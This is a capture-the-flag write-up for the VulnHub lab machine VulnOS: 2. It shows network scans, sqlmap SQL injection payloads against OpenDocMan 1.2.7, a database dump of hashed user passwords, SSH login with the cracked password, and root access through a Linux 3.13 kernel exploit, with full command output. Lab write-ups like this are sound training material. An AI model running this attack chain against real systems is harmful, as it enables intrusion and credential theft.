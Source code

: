 # Information

- Name: VulnOS: 2
- Date release: 17 May 2016
- Author: c4b3rw0lf
- Series: VulnOS
- Platform: VulnOS
- Link: https://www.vulnhub.com/entry/vulnos-2,147/
- Difficulty: Easy

# Write Up

## Enum
### Host Dicovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools) with mode fast. In this lab, the ip of machine is _10.0.2.9_.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:27:dd:57 10.0.2.3
[*] 08:00:27:57:4f:aa 10.0.2.9
[*] 08:00:27:e1:f8:46 10.0.2.15
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and _nmap_. The tool _portScan_ send a TCP SYN packet, then evaluate the answer, if the flags of TCP are SYN/ACK the port is open. So, there are 3 ports open:

```Console
# python portScanner.py -i 10.0.2.9
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 6667 (unknown) open
```
Let see the version that are running with _nmap_:

```Console
# nmap -sV -p22,80,6667 10.0.2.9
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-31 18:06 UTC
Nmap scan report for 10.0.2.9 (10.0.2.9)
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.68 seconds
```

## Web

Port 80 is running a web where there is a message from the author:
![Web Message](images/web_author.png)

Redirect to 10.0.2.9/jabc/
![Web_JABC](images/index_jabc.png)

In the _documentation_ (http://10.0.2.9/jabc/?q=node/7) there is a message with black font that say a new directory /jabcd0cs/ and creds guest:guest.
![Message Docs](images/message_doc.png)

In /jabcd0cs/ there is a login panel provided by OpenDocMan v1.2.7.
![OpenDocMan Login](images/login_odm.png)

## Exploitation

This version is vulnerable to [SQLi](https://www.exploit-db.com/exploits/32075). The parameter add_value in _http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user_ is vulnerable, so we can try list the databse with sqlmap.
```Console
# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --level 4
sqlmap identified the following injection point(s) with a total of 2610 HTTP(s) requests:
---
Parameter: add_value (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=1&add_value=odm_user WHERE 8676=8676 AND 4873=4873-- dVmo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=1&add_value=odm_user WHERE 6317=6317 AND (SELECT 1756 FROM (SELECT(SLEEP(5)))lizz)-- SJpI
---
```

In addition, its possible dump the database. There is a table _odm_user_  that have the passwords hashed. 
```Console
# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs --tables
Database: jabcd0cs
[15 tables]
+-------------------+
| odm_access_log    |
| odm_admin         |
| odm_category      |
| odm_data          |
| odm_department    |
| odm_dept_perms    |
| odm_dept_reviewer |
| odm_filetypes     |
| odm_log           |
| odm_odmsys        |
| odm_rights        |
| odm_settings      |
| odm_udf           |
| odm_user          |
| odm_user_perms    |
+-------------------+

# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs -T odm_user --dump
Database: jabcd0cs
Table: odm_user
[3 entries]
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+
| id | Email              | phone        | password                         | username | last_name | department | first_name | pw_reset_code |
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+
| 1  | webmin@example.com | 5555551212   | b78aae356709f8c31118ea613980954b | webmin   | min       | 2          | web        | <blank>       |
| 2  | guest@example.com  | 555 5555555  | 084e0343a0486ff05530df6c705c8bb4 | guest    | guest     | 2          | guest      | NULL          |
| 3  | test@test.com      | 2121 2121211 | 71d941b4ed4d2cd3b9a20760125eacd1 | test2    | test      | 2          | test1      | NULL          |
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+

```

With rockyou.txt and hashcat don't crack, so i searched a web crack md5 app. The web [md5online.org](https://www.md5online.org/md5-decrypt.html) give me the password. 

With user _webmin_ and password _webmin1980_, login ssh is succesful.

```Console
ssh webmin@10.0.2.9
The authenticity of host '10.0.2.9 (10.0.2.9)' can't be established.
ED25519 key fingerprint is SHA256:7FO0Y5C+W/hj0ShAjGy33uQvuMRPrSNk82jGy/wxnfY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.9' (ED25519) to the list of known hosts.
webmin@10.0.2.9's password:
Welcome to Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Wed Aug 31 19:31:59 CEST 2022

  System load:  0.05              Processes:           89
  Usage of /:   6.3% of 29.91GB   Users logged in:     0
  Memory usage: 39%               IP address for eth0: 10.0.2.9
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Aug 31 19:31:59 2022 from 10.0.2.15
$ whoami
webmin
$ id
uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
$ uname -r
3.13.0-24-generic
$ python -c 'import pty; pty.spawn("/bin/bash")'
webmin@VulnOSv2:~$
webmin@VulnOSv2:~$ export TERM=xterm-256color
```
## Privilege Escalation

Linux 3.13 on Ubuntu is vulnerable to [privilege escalation](https://www.exploit-db.com/exploits/37292). 

```Console
webmin@VulnOSv2:/tmp$ gcc pe.c -o pe
webmin@VulnOSv2:/tmp$ ./pe
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
# cd /root
# cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```



